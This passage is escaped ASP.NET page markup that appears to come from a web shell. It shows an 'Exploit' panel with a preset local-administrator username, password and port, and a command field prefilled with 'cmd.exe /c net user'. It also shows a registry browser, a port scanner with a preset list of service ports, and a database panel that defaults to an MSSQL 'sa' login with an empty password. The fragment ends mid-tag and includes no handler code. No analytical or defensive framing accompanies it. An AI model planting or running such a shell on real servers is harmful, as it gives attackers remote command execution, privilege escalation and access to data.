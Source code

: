  &lt;div runat="server" id="APl"&gt;
&lt;table width="100%" border="0" cellpadding="4" cellspacing="0" style="margin:10px 0;"&gt;
 &lt;tr align="center"&gt;
 &lt;td style="width:10%"&gt;&lt;/td&gt;
 &lt;td style="width:20%" align="left"&gt;UserName : &lt;input class="input" runat="server" id="dNohJ" type="text" size="20" value="localadministrator"/&gt;&lt;/td&gt;
 &lt;td style="width:20%" align="left"&gt;PassWord : &lt;input class="input" runat="server" id="NMd" type="text" size="20" value="#l@$ak#.lk;0@P"/&gt;&lt;/td&gt;
 &lt;td style="width:20%" align="left"&gt;Port : &lt;input class="input" runat="server" id="HlQl" type="text" size="20" value="43958"/&gt;&lt;/td&gt;
 &lt;td style="width:10%"&gt;&lt;/td&gt;
 &lt;/tr&gt;
 &lt;tr &gt;
 &lt;td style="width:10%"&gt;&lt;/td&gt;
 &lt;td colspan="5"&gt;CmdShell&nbsp;&nbsp;:&nbsp;&lt;input class="input" runat="server" id="mHbjB" type="text" size="100" value="cmd.exe /c net user"/&gt; &lt;asp:Button ID="SPhc" CssClass="bt" runat="server" Text="Exploit" OnClick="lRfRj"/&gt;&lt;/td&gt;
 &lt;/tr&gt;
&lt;/table&gt;
&lt;div id="UHlA" visible="false" enableviewstate="false" runat="server"&gt;
&lt;table width="100%" border="0" cellpadding="4" cellspacing="0" style="margin:10px 0;"&gt;
&lt;tr align="center"&gt;
&lt;td style="width:30%"&gt;&lt;/td&gt;
&lt;td align="left" style="width:40%"&gt;&lt;pre id="Bin_Td_Res" runat="server"&gt;&lt;/pre&gt;&lt;/td&gt;
&lt;td style="width:30%"&gt;&lt;/td&gt;
&lt;/tr&gt;
&lt;/table&gt;
&lt;/div&gt;
&lt;/div&gt;
&lt;%--Reg--%&gt;
&lt;div id="kkHN" runat="server"&gt;
&lt;p&gt;Registry Path : &lt;asp:TextBox id="qPdI" style="width:85%;margin:0 8px;" CssClass="input" runat="server"/&gt;&lt;asp:Button ID="MoNA" runat="server" Text="Go" CssClass="bt" onclick="RAFL"/&gt;&lt;/p&gt;
&lt;table width="100%" border="0" cellpadding="0" cellspacing="0" style="margin:10px 0;"&gt;
&lt;asp:Table ID="pLWD" runat="server" Width="100%" CellSpacing="0" &gt;
&lt;asp:TableRow CssClass="alt1"&gt;&lt;asp:TableCell ColumnSpan="2" id="vyX"&gt;&lt;/asp:TableCell&gt;&lt;/asp:TableRow&gt;
&lt;asp:TableRow CssClass="head"&gt;&lt;asp:TableCell Width="40%"&gt;Key&lt;/asp:TableCell&gt;&lt;asp:TableCell Width="60%"&gt;Value&lt;/asp:TableCell&gt;&lt;/asp:TableRow&gt;
&lt;/asp:Table&gt;
&lt;/table&gt;
&lt;/div&gt;
&lt;%--PortScan--%&gt;
&lt;div id="YwLB" runat="server"&gt;
&lt;p&gt;
IP : &lt;asp:TextBox id="MdR" style="width:10%;margin:0 8px;" CssClass="input" runat="server" Text="127.0.0.1"/&gt; Port : &lt;asp:TextBox id="lOmX" style="width:40%;margin:0 8px;" CssClass="input" runat="server" Text="21,25,80,110,1433,1723,3306,3389,4899,5631,43958,65500"/&gt; &lt;asp:Button ID="CmUCh" runat="server" Text="Scan" CssClass="bt" OnClick="ELkQ"/&gt;
&lt;/p&gt;
&lt;div id="GBYT" runat="server" visible="false" enableviewstate="false"&gt;&lt;/div&gt;
&lt;/div&gt;
&lt;%--DataBase--%&gt;
&lt;div id="iDgmL" runat="server"&gt;
&lt;p&gt;ConnString : &lt;asp:TextBox id="MasR" style="width:70%;margin:0 8px;" CssClass="input" runat="server"/&gt;&lt;asp:DropDownList runat="server" CssClass="list" ID="WYmo" AutoPostBack="True" OnSelectedIndexChanged="zOVO" &gt;&lt;asp:ListItem&gt;&lt;/asp:ListItem&gt;&lt;asp:ListItem Value="server=localhost;UID=sa;PWD=;database=master;Provider=SQLOLEDB"&gt;MSSQL&lt;/asp:ListItem&gt;&lt;asp:ListItem Value="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=E:\database.mdb"&gt;ACCESS&lt;/asp:ListItem&gt;&lt;/asp:DropDownList&gt;&lt;asp:Button ID="QcZPA" runat="server" Text="Go" CssClass="bt" OnClick="BGY"/&gt;&lt;/p&gt;
&lt;div id="dQIIF" runat="server"&gt;